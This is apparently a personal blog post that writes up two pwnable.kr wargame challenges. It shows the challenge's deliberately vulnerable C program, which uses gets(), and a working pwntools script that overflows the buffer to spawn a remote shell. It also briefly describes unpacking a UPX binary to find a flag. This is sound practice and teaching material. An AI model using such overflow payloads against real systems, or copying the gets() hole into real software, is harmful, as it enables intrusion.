






---

layout: post
title: Pwn-A-Day Day-3
description: "Pwn challenges for a Month"
date: 2020-05-03
feature_image: images/pwn_a_day/front.png
tags: [Pwn-A-Day]
published: true

---


<!--more-->

**So I have taken a challenge to this month to do at least one pwn challenge a day for the entire month of May**

# Day 3

Today I am going to do 2 challenges from this [site](http://pwnable.kr/play.php)

## Name - bof
So we are given with 2 files the binary and the source code
lets view the source code first 

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

So looks like we are given with a buffer 32 bytes long and then we get the buffer using **gets** which is a dangerous function as it doesn't stop reading input till new line occurs after that the value of key variable is compared to a hex strings and if it matches a shell is spawned
so lets look the binary in **gdb-gef**

the  disassembly of main func



so it does nothing special here just calls a function named `func`
lets check the disassembly of func



So here we can see that our buffer is located at `ebp-0x2c` and our variable key is located at `ebp+0x8` so there is a difference of 52 bytes in between them so we can overflow the buffer with 52 bytes and then supply the value that we want to sent to our key variable

the exploit is given below

```python
from pwn import *

local=False

if local:
	p=process("./bof")
else:
	p=remote("pwnable.kr",9000)

payload=""
payload+="A"*52
payload+=p32(0xcafebabe)

# p.recvuntil("overflow me :")
p.sendline(payload)
p.interactive()
```

we get the flag by using the shell



moving on to the next challenge

## Name -flag

so this is just a reversing challenge so we don't need to do buffer overflow or anything
using gdb on binary doesn't give us anything using strings we get this



So we unpack it with upx first to get the decoded binary 

lets view the main function so there is a strings named flag present lets check it out



you can also view it in ida 




That's it for today hope you learnt something !!

